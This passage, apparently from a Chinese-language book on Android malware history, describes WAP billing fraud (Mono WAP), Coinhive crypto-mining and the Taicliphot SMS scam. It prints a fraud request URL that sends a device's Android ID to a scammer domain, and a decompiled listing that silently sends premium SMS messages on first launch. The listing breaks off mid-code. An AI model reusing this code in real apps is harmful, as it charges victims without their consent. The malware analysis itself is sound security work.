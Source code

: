 欺诈者实施下一步欺诈的最佳方式是转向其他形式的电话计费欺诈。在许多国家，电话用户可以通过无线应用协议（WAP）计费技术为服务付费。WAP 计费服务器可以通过 HTTP 访问，使恶意应用容易与之连接。欺诈者的缺点是，WAP 计费不像基于短信的计费那样普及，这使得他们只能在少数几个国家（如俄罗斯、泰国、越南、西班牙和英国）实施欺诈。

2014 年最大的 WAP 欺诈家族 Mono WAP 的有趣之处不仅在于其广泛分布，还在于它所选的编程语言以及其恶意代码的极小体积，这使得它很难被发现。

与其他大多数 Android 恶意软件家族（几乎完全使用 Java 编写）不同，Mono WAP 是使用 Mono for Android 编写的，这是一种开源软件框架，允许开发者使用 .NET 语言（如 C#）开发 Android 应用。（2016 年，微软收购了 Mono for Android 背后的公司，并将该框架更名为 Xamarin.Android。）这种语言选择给只能分析 Java 代码的杀毒技术带来了巨大问题。

Mono WAP 欺诈家族的另一个有趣特点是它几乎没有任何代码，并且操作极其隐秘。它在 WebView 中加载 WAP 欺诈页面，WebView 是标准的 Android 组件，用于在没有浏览器的情况下显示网页，并将用户注册为定期订阅的高级服务。在移动运营商加强 WAP 注册保护之前，Mono WAP 应用只需要收集设备的 Android ID 并将其发送到诈骗者托管的域名。

例如，样本 *com.baibla.krasive*（v1，9604）向类似这样的 URL 发出了请求：

```
http://mobifs.ru/?app=krasivejshiemestaplanety\&aid=30016d7eaab21a25
```

`app` 的 URL 参数可能用于标识发出请求的应用，而 `aid` 参数用于标识用户以注册高级服务。

这个简单的方案只适用于连接到提供高级订阅服务的运营商网络的设备。如果设备连接的是 Wi-Fi 或其他运营商的移动网络，则无法进行注册。然而，通过简单的 HTTP 连接注册高级服务的便捷性使得 WAP 欺诈很难被发现。如何区分合法的 HTTP 请求和未经用户同意将用户注册为服务的请求？在 WAP 欺诈应用的早期阶段，通常是在足够多的用户投诉不明收费之后，才发现这些应用。

多年来，移动运营商通过双重身份验证和其他验证用户授权支付的机制来改善防欺诈保护。在一些国家，政府修改了关于 WAP 计费的法律，以便更好地保护消费者。随着移动运营商提高其 WAP 注册页面的安全性，WAP 欺诈应用变得越来越复杂：恶意应用现在需要拦截双重身份验证短信，并使用 JavaScript 或其他技术将确认码输入到对话框中。

WAP 欺诈在安卓系统上持续盈利并广泛存在，直到至少 2023 年。由于合法的 WAP 计费是移动运营商的一项重要收入来源，越来越多的国家和移动运营商开始为其客户启用该服务。每一个新的 WAP 计费市场都会立即吸引 WAP 欺诈恶意软件，因为新的 WAP 计费运营商通常在打击滥用和欺诈方面经验不足。

#### ***加密货币恶意软件***

2014 年也见证了安卓加密货币恶意软件的兴起。那时，用户仍可以利用移动电话有限的硬件规格来挖掘许多加密货币，尤其是当他们控制大量设备并将其转化为挖矿僵尸网络时。起初，隐秘的挖矿行为主要针对比特币和莱特币等加密货币，但很快他们将目标转向了 Monero。由于设计上的原因，挖掘 Monero 比其他当时的加密货币对硬件的要求更低，因此非常适合手机。

Monero 挖矿最大的优势是一个名为 Coinhive 的网站，它允许任何人通过一行 JavaScript 代码来挖掘 Monero 币。很快，世界各地的恶意软件作者（不仅仅是在安卓系统上）将这些 Coinhive 挖矿的一行代码嵌入到应用程序、网站、广告以及任何能执行 JavaScript 代码的地方。由于滥用的规模，杀毒软件和其他安全产品开始屏蔽所有与该网站的连接。2018 年 3 月，计算机安全记者 Brian Krebs 发布了一篇长篇曝光文章，题为“Coinhive 是谁，做了什么？” 该文章详细记录了该网站及其背后人员的可疑历史。Coinhive 在 2019 年初关闭，至此没有其他网站跟随其步伐。这一关闭实际上结束了安卓恶意软件通过隐秘的加密货币挖矿活动。

当加密货币价格在 2020 年和 2021 年飙升至新纪录时，恶意软件作者从挖矿转向了网络钓鱼。钓鱼应用程序入侵了加密货币账户和钱包，并将余额转移到恶意软件开发者的账户中。在成千上万种加密货币通过它们的炒作周期不断变动的复杂加密货币生态系统中保护用户，成为一项真正的挑战。仅仅跟踪这些加密货币的名称、标志、网站以及它们的官方和非官方钱包应用程序，就足以让一个团队全职工作。

#### ***Taicliphot***

在 Google Play 之外，恶意软件的情况依然不透明。我们认为，2012 年到 2014 年间最常被侧载的恶意软件可能是本章前面提到的 RuFraud。成千上万的已知应用样本运行方式相似，但它们是否属于同一恶意软件家族，还是属于具有相同战术的多个家族，仍然不清楚。DroidDream Light 在 2013 年继续活跃，但在 2014 年消失了。

2014 年，另一个重要的市场外恶意软件家族是 Taicliphot 短信诈骗应用，它们主要针对越南的色情内容观众。这些应用几乎没有任何代码，直接跳转到主活动的`onCreate`方法中的短信诈骗功能。清单 2-8 来自 *ncn.taicliphot* (v1, 38a3)，展示了这一功能。

```
protected void onCreate(Bundle savedInstanceState) {
  Type(UNKNOWN) v2_0 = 1024;
  super.onCreate(savedInstanceState);
  this.requestWindowFeature(1);
  this.getWindow().setFlags(v2_0, v2_0);
  this.setContentView(2130903041);
  this.l = ((LinearLayout)this.findViewById(2131034114));
  SmsManager v0_0 = SmsManager.getDefault();
  try {
    if (!this.readFile(this.file).equals("1")) {
      this.writeFile(this.file, "1");
      v0_0.sendTextMessage("6022", 0, "test naenewlife", 0, 0);
      v0_0.sendTextMessage("6022", 0, "test naenewlife", 0, 0);
      v0_0.sendTextMessage("6022", 0, "test naenewlife", 0, 0);
      Log.d("aaaaaaaaaaaaaaaaaaaaa", "Da gui");
    }
  } catch (IOException v6_0) {
    v6_0.printStackTrace();
    try {
      this.writeFile(this.file, "1");
```